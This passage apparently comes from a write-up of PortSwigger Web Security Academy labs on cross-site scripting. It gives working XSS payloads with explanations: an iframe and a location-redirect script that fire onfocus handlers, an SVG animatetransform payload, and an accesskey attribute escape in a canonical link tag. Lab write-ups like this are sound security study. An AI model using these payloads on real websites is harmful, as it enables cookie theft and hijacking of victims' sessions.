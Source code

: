 We can try to send it as iframe like we did on `6. DOM XSS in jQuery selector sink using a hashchange event` but upon viewing the exploit, it seems to be failing

```html
<iframe src="https://LABID.web-security-academy.net/?search=%3Chello+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D0%3EHello%3C%2Fhello%3E/#x"></iframe>
```

Therefore in order to exploit it, we can use script tags and assign the malicious URL to a location keyword. This will autodirect to our exploit, triggering the payload

```html
<script>
location='https://LABID.web-security-academy.net/?search=%3Chello+id%3Dx+onfocus%3Dalert%281%29+tabindex%3D0%3Ehello%3C%2Fhello%3E#x';
</script>
```

### 16. Reflected XSS with some SVG markup allowed

Payload that worked:

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

Methodology and explanation:

We can refer to the XSS cheatsheet and try a bunch of SVG payloads. I tried it manually as the intruder will still be slow on burp suite community edition.

Other payloads may work as well, this is the first one that gave me a result.

### 17. Reflected XSS in canonical link tag

Payload that worked:

```
?hello=1%27accesskey=%27x%27onclick=%27alert(1)
```

Methodology and explanation:

![](/assets/images/XSS/Pasted%20image%2020250726013105.png)

We need to figure out a way to escape the href attribute.

For this, we can try to add various characters. Trying single quote worked ?hello=1%27, as we can see, in the URL it is auto encoded. But in the source code, it isn't and also, a space was added before it.

![](/assets/images/XSS/Pasted%20image%2020250726013404.png)

I then tried to add accesskey='x' by which we can trigger an XSS when the victim presses the key X. But as per the source code, it looks like the single quotes are getting automatically converted to double quotes and a space is being added after them and not before.

![](/assets/images/XSS/Pasted%20image%2020250726013547.png)
